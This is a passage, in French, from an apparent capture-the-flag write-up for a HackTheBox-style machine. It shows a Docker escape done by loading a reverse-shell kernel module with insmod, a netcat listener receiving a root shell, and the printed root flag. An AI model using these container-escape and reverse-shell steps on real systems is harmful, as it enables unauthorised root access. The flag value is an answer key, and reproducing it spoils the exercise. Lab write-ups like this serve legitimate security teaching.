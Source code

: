 ```

2023-09-09 17:13:30 (18.1 MB/s) - ‘Makefile’ saved [148/148]
```
Après avoir build les fichiers avec ``make``, on effectue la commande:
```
insmod reverse-shell.ko
```
# Root
Et voilà on est sorti du docker et en plus on est root !
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.238] 38630
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
```
On récupère alors le dernier flag:
```
root@monitors:/# cat /root/root.txt
cat /root/root.txt
db03bd4a78beda3aaec547ab083a9500
```